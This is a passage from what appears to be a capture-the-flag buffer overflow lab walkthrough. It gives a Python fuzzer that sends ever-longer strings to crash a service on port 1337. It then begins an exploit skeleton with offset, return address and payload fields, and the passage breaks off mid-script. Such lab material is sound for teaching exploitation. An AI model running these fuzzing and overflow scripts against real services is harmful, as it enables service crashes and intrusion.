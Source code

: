 ### Fuzzing

Create a file on your Kali box called fuzzer.py with the following contents:

```python
import socket, time, sys

ip = "MACHINE_IP"
port = 1337
timeout = 5

buffer = []
counter = 100
while len(buffer) < 30:
    buffer.append("A" * counter)
    counter += 100

for string in buffer:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        connect = s.connect((ip, port))
        s.recv(1024)
        print("Fuzzing with %s bytes" % len(string))
        s.send("OVERFLOW1 " + string + "\r\n")
        s.recv(1024)
        s.close()
    except:
        print("Could not connect to " + ip + ":" + str(port))
        sys.exit(0)
    time.sleep(1)
```

Run the fuzzer.py script using python: `python fuzzer.py`

The fuzzer will send increasingly long strings comprised of As (up to 3000).
If the fuzzer crashes the server with one of the strings,
you should see an error like: "Could not connect to MACHINE_IP:1337".
Make a note of the largest number of bytes that were sent.

### Crash Replication & Controlling EIP

Create another file on your Kali box called exploit.py with the following contents:

```python
import socket

ip = "10.10.44.251"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(buffer + "\r\n")
```